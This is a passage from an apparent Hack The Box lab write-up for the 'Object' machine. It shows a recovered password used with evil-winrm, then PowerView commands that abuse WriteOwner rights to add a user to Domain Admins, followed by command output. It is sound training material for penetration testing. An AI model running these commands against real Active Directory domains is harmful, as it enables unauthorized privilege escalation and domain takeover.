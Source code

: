 The credential `W3llcr4ft3d_4cls` seems particularly interesting.

Trying this with evil-winrm we can successfully authenticate as maria:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ evil-winrm -u maria -p 'W3llcr4ft3d_4cls' -i 10.129.96.147
```

Note: the target IP keeps changing because this box took me forever and I stopped, started, and reverted several times.

Now for the last ACL abuse step, we can think back to our bloodhound results and recall that maria had WriteOwner access over the domain admins group.

First we'll need to assign maria as owner of the group with PowerView:

```
*Evil-WinRM* PS C:\temp> Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
```

Next we'll assign maria full rights over the group:

```
*Evil-WinRM* PS C:\temp> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
```

Finally,lets add maria to the group with:

```
*Evil-WinRM* PS C:\temp> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

With that done I can exit my winrm session and log back in and confirm we are now in the domain admins group:

```
*Evil-WinRM* PS C:\Users\maria\Documents> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 9:16:32 PM
Password expires             Never
Password changeable          10/22/2021 9:16:32 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 C:\\programdata\\cmd.ps1
User profile
Home directory
Last logon                   7/31/2024 4:45:45 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```
